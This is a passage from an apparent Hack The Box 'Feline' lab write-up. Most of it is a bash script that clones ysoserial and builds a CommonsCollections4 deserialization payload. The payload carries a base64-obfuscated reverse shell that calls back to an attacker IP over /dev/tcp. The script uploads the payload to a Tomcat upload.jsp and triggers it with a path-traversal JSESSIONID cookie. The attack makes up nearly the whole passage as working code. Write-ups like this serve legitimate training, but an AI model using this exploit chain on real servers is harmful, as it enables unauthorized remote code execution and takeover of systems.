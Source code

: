 


```bash 

git clone https://github.com/frohoff/ysoserial.git

mvn clean package -DskipTests


cd ysoserial/target/


vim run.sh 
####################################################################################
# Hackthebox "Feline" deserializtion attack 
#####################################################################################
#set command line paramters
ip=$1
port=$2
#reverse shell command the trget will execute
cmd="bash -c 'bash -i >& /dev/tcp/$ip/$port 0>&1'"
file=$(cat /dev/urandom | tr -dc 'a-zA-Z0-9' | fold -w 32 | head -n 1)

# fux it with base64 to bypss bad characters
hexout="bash -c {echo,$(echo -n $cmd | base64)}|{base64,-d}|{bash,-i}"

#create yoserial payload
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections4 "$hexout" > /tmp/$file.session
echo $file

#upload the payload 
curl -s -F "data=@/tmp/$file.session" http://10.10.10.205:8080/upload.jsp?email=bob@bob.com > /dev/null

#reference paylaod in cookie 
curl -s  -H "Cookie: JSESSIONID=../../../../../../../../../../opt/samples/uploads/$file" http://10.10.10.205:8080/ > /dev/null


ip=x.x.x.x
port=2424

bash test.sh $ip $port
```

## Access extension

---

### user Tomcat

